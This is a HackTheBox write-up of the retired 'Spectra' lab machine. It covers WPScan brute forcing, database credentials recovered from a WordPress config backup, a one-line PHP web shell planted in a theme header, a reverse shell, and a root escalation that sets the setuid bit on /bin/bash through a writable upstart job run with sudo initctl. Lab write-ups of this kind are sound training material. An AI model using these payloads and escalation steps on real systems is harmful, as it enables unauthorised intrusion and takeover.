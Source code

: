 ```yaml
---
layout: post
title: "HTB - Spectra"
author: "BoT"
tags: "writeup"
excerpt_separator: <!--more-->
---
```


Spectra has just retired from HackTheBox! Here's a quick and dirty writeup on my thought process while solving it.

<!--more-->

## HackTheBox - Spectra

**Box**: Spectra\
**IP address**: 10.10.10.229 \
**Local**: e89d27fe195e91██████████████████ \
**Proof**: d44519713b889d5██████████████████ \
**Lesson learnt**:

- If PHP files are blank, view them via `source-view` within the browser.
- Take a closer look into results shown by `linpeas.sh`. Don't skip over them just because you are lazy! Take time to scroll through them.
- If modification based on existing (original) script doesn't work, just rewrite them from scratch.

### Local

#### Enumeration

Nmap scans reveals that Spectra is a rather straight foward box with only 3 open ports: `:22`, `:80`, `:3306`. Since MySQL port cannot be accessed remotely, I decided to focused on the webserver first.

Upon accessing the site, I see hints -- at the source code -- that suggests the need for the box's IP address to be mapped to `spectra.htb`. This prompted me edit `/etc/hosts` as shown below. With this, I can now access 10.10.10.229 with just `http://spectra.htb` via browser.

![webserver](../assets/202106_htb_spectra/0_webserver_hint.png)

![ip-hostname-mapping](../assets/202106_htb_spectra/1_host_mapping.png)

While manually enumerating the webserver, I noticed that `spectra.htb/main` is a WordPress directory. Further enumeration via `wpscans` yield no interesting results except that `administrator` was a valid user.

```bash
wpscan --url http://spectra.htb/main --enumerate u
wpscan --url http://spectra.htb/main --passwords /usr/share/wordlists/rockyou.txt --usernames administrator --wp-content-dir http://10.10.10.229/main/wp-content
```

Switching over to `spectra.htb/testing`, I noticed that this directory is essentially a copy of `/main`. The latter is likely a development environment used for testing before being pushed to production at `/main`.

In this directory, I found `wp-config.php.save`, an interesting file with database credentials. I initially disregarded this file as I didn't view the page via `source-view` and assumed it to be just a blank file. Yikes.

![sql-credentials](../assets/202106_htb_spectra/2_sql_credentials.png)

As `:3306` doesn't allow remote login, I tried using this set of credentials to log into the WordPress platform. `devtest:devteam01` wasn't successful, but `administrator:devteam01` worked just fine.

#### Attack Vector

Now that we have access to WordPress, I tried adding a simple PHP backdoor at `header.php` -- found by navigating to `Appearance > Theme Editor > Theme Header`.

```php
# Simple PHP backdoor script
<?php echo system($_GET["cmd"]); ?>  
```

After several tries, I realised that the edit function doesn't work for themes actively in use. I have to add this backdoor script to an inactive theme, then navigate to `Appearance > Themes` and switch to the modified theme. RCE is now possible!

I confirmed this by navigating to `spectra.htb/main/?cmd=whoami`. Success!

![successful-rce](../assets/202106_htb_spectra/3_rce.png)

Unfortuantely, attempting to trigger a reverse shell via this backdoor didn't work. Instead, I utilized PHP shell from `/usr/share/webshells/php/php-reverse-shell.php` and added it to the `header.php`. Woohoo, a low-privilege shell!

![php-reverse-shell](../assets/202106_htb_spectra/4_php_reverse_shell.png)

![web-shell](../assets/202106_htb_spectra/5_web_shell.png)

#### Escalating to User Shell

While enumerating the webshell with `linpeas.sh`, I found more database credentials. Unfortunately, it doesn't seem to yield anything useful when I enumerated the database. A dead end.

```bash
# Credentials used: development01
mysql -u dev -p
```

![database-credentials](../assets/202106_htb_spectra/6_more_db_credentials.png)

![database-enumeration](../assets/202106_htb_spectra/7_interesting_hash.png)

After a second look into the results obtained from `linpeas.sh`, I found some autologin credentials.

![autologin-credentials](../assets/202106_htb_spectra/8_autologin_credentials.png)

Great! I can now SSH to user with the credentials!

![ssh-katie](../assets/202106_htb_spectra/9_ssh_successful.png)

### Proof

#### Enumeration

Now as Katie, `linpeas.sh` provies us with more information. In particular, `sudo -l` shows that Katie has permission to run `/sbin/initctl` as root without password.

![sudo-permissions-available](../assets/202106_htb_spectra/11_sudo_permission.png)

Katie also has write permission at various test files located in `/etc/init`.

![write-permision-available](../assets/202106_htb_spectra/12_write_permission.png)

A quick research on `initctl` shows that the binary allows a system administrator to communicate and interact with the upstart scripts -- aka 'System Jobs' located in `/etc/init` -- and are run with sudo privilege.

#### Escalation Vector

Seems like editing any `.conf` files within `/etc/init` to include malicious commands -- such as enabling `/bin/bash`'s sticky bits -- would yield me a root shell! With that in mind, I edited `test.conf` with the contents below so that when ran with `sudo /sbin/initctl`, the `/bin/bash` executable will set its permissions to that of the user who created it (root).

```bash
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script
    chmod +s /bin/bash
end script
```

All's left is to trigger the edited script and spawn the root shell!

```bash
sudo /sbin/initctl start test
/bin/bash -p
```

![pe-vector](../assets/202106_htb_spectra/13_pe_vector.png)
